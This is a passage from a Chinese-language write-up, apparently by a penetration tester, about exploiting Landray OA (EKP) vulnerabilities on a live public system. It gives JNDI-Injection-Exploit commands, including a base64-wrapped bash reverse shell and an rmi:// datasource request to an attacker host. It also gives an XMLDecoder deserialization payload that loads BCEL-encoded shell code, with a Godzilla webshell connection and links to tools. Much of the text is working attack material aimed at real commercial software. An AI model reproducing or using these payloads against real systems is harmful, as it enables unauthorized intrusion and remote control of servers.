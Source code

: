   *   *   *   *   *   *   *   *   *   *   * 

    
    
     工具下载:https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0  
    开启rmi/jndi服务使用DNSLOG:java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ping DNSLOG" -A IP  
    开启rmi/jndi反弹shell：java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,bash反弹shell脚本base64编码}|{base64,-d}|{bash,-i}" -A IP  
    发送带有payload的请求包:method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/dromo1

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715094101.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715094103.png)

 **三、SysSearchMain.do XMLdecode反序列化(任意文件写入）** **漏洞描述**
蓝凌OA(EKP)存在任意文件写入漏洞，属于典型的xmlDecoder反序列化。漏洞在/sys/search/sys_search_main/sysSearchMain.do下面。跟任意文件读取一样可以通过
custom.jsp 文件未授权写入恶意文件，获取shell。 **漏洞复现**
当时由于事件紧急，需要尽快确定具体漏洞，一直在强调上级部门在等回复。我首当其冲就先用OA工具测一遍，果不其然漏洞还是跟往年一样原始不动的复现成功。可以想到该公司使用的OA系统有多脆弱，还是在公网当中。先使用Liqun工具测试是否存在蓝凌OA漏洞，可以看出已经给出getshell链接和密码。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715094104.png)

使用哥斯拉进行连接，我用的版本v4.0.1。拿到的是普通用户权限，我后面没有进行提权。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715094105.png)

具体漏洞的请求数据如下，主要问题在com.landray.kmss.sys.search.jar包中，对FdParameters参数过滤不严，将字符串数据传递给ojectXmlDecoder时造成反序列化。  

 **payload**

  *   *   *   *   *   *   *   *   *   * 

    
    
     var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=<java><void+class%3d"com.sun.org.apache.bcel.internal.util.ClassLoader">  <void+method%3d"loadClass">    <string>$$BCEL$$$l$8b$……</string>    <void+method%3d"newInstance"></void>  </void></void></java>  
    

‍

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715094106.png)

发送的shell代码可以使用哥斯拉自动生成，但是需要进行BCEL编码，下面是引用别人写的文章对BCEL
Classloader的介绍和编写的BCEL编码工具。

  *   *   *   *   * 

    
    
    BCEL Classloader介绍:https://blog.csdn.net/xd_2021/article/details/121878806  
    BCEL编码工具:https://github.com/hunzi0/BCELCode

该BCEL编码工具功能是对代码进行BCEL编码和解码，如有需要可以后台联系。运行步骤如下：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715094107.png)
